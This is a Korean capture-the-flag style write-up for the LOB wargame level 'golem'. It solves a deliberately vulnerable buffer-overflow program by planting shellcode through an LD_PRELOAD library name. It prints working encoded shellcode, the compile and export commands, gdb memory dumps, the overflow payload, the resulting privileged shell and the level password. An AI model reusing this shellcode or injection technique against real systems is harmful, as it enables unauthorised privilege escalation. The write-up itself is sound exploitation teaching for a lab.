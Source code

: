 ```yaml
---
layout: post
title:  "[LOB]Level11. golem"
subtitle:   "[LOB]skeleton → golem"
categories: writeup
tags: lob golem level11

---
```


# skeleton → golem

## keyword : stack destroyer

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



buffer의 시작주소부터 EBP주소까지 0으로 초기화하고,  RET이후부터 0xbfffffff까지 0으로 초기화 한다.

앞문제에서 심볼릭 링크를 이용한 공격을 막혔음을 의미한다.



이럴경우 LD_PRELOAD 환경변수를 이용해야 한다.



> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 이때 `-fPIC -shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

> -fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
> -shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



```sh
(gdb) x/32x $esp-3000
....
0xbffff4f4:	0xbffff500	0x400075bb	0x40017000	0x00002fb2
0xbffff504:	0x40013868	0xbffff6e4	0x4000380e	0x40014478
0xbffff514:	0x6d6f682f	0x6b732f65	0x74656c65	0x742f6e6f
0xbffff524:	0x902f706d	0x90909090	0x90909090	0x90909090
0xbffff534:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff544:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff554:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff564:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
0xbffff574:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff584:	0x90909090	0xeb909090	0xc9315e11	0x6c8032b1
0xbffff594:	0x8001ff0e	0xf67501e9	0xeae805eb	0x32ffffff
0xbffff5a4:	0x306951c1	0x69697430	0x6f6a6330	0x5451e48a
0xbffff5b4:	0xb19ae28a	0x0081ce0c	0x40013868	0x4000220c
0xbffff5c4:	0xbffffaf5	0x00000000	0x00000000	0x00000000
```

쉘코드가 포함된 LD_PRELOAD 의 주소를 구한다. (0xbffff534 : NOP중간 주소)



```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
bash$ my-pass
euid = 511
cup of coffee
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

`python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`

##### **golem / cup of coffee**